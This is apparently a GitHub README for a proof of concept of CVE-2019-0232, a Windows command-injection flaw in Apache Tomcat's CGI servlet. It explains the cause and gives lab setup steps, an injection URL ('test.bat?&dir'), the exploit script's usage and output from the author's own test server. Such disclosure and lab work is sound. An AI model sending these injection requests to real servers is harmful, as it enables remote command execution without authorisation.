



# CVE-2019-0232

We present a PoC for CVE-2019-0232

`Vulnerable versions`: Apache Tomcat 9.0.0.M1 to 9.0.17, 8.5.0 to 8.5.39 and 7.0.0 to 7.0.93 on Windows

When `enableCmdLineArguments` is `true` in CGI, there is a Remote Code Execution vulnerability due the way in which JRE passes command line arguments to Windows.

## The Vulnerability

This vulnerability is specific to Windows because of the way Windows handles command line arguments. Processes in Windows are created using a single command line parameter which is later parsed to get the separate arguments. 

The rules for quoting the command line arguments are vague, and hence user controlled arguments can be used to break the way Windows parses them and get code execution.

The interesting part is that when batch files (.cmd and .bat) are executed, they are excuted inside the `cmd.exe` encvironment. So, `file.bat` is converted to `C:\Windows\system32\cmd.exe /c "file.bat …"` and additional quoting is required to avoid command injection. But Java does not provide this quoting and hence breaking out of `file.bat` becomes easier and we can chain `evil.bat` using `file.bat&evil.bat`. Now, both `file.bat` and `evil.bat` will be executed by `cmd.bat` instead of only executing `file.bat`.  

So, The CGI request `http://localhost:8080/cgi/test.bat?&dir` is converted to `test.bat &dir` and `cmd.exe` interprets them as running `test.bat` and `dir` in conjunction.

## Setup

An instance of Windows_Server-2019-English-Full-Base-2021.03.10 on AWS was setup as a remote machine running Apache Tomcat 7.0.81.

1. Enabling privileged context for CGI support

In `%CATALINA_HOME%\conf\context.xml` modify

`<Context>` to `<Context privileged="true">`



2. Enabling CGI and enabling `enableCmdLineArguments`



3. Setting correct Servlet mapping



4. Creating the `cgi` folder and adding a `test.bat` file.

Create a folder called `cgi` in `%CATALINA_HOME%\webapps\ROOT\WEB-INF\`

Create a file `test.bat` in 
`%CATALINA_HOME%\webapps\ROOT\WEB-INF\cgi\test.bat`

with contents (A simple hello world CGI script)

```
@echo off
echo Content-Type: text/plain
echo.
echo Hello, World!
```

ROOT is the web application mapped to /, so we have added a CGI script at URI `/cgi/test.bat`

## Running PoC

A sample check can be to test:

`http://localhost:8080/cgi/test.bat?&dir`

This should give out the Directory contents of the hosted server. 

The PoC is given [here](./exploit.py)

```
usage: exploit.py [-h] [-p PORT] [--ssl] -s PATH -c COMMAND host

positional arguments:
  host                  Host name or IP

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Port of Tomcat server, default: 8080
  --ssl                 If server uses ssl
  -s PATH, --path PATH  Path of CGI script
  -c COMMAND, --command COMMAND
                        Command to run
```

`3.140.7.1` is the IP of the remote machine.

```python3 exploit.py -s cgi/test.bat -c dir 3.140.7.1```
```
[*] Sending command
[*] Result:
Hello, World!
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\Administrator\Downloads\apache-tomcat-7.0.81-windows-x64\apache-tomcat-7.0.81\webapps\ROOT\WEB-INF\cgi

03/26/2021  01:05 PM    <DIR>          .
03/26/2021  01:05 PM    <DIR>          ..
03/26/2021  01:04 PM    <DIR>          %SystemDrive%
03/26/2021  11:59 AM                67 test.bat
               1 File(s)             67 bytes
               3 Dir(s)  14,794,878,976 bytes free
```
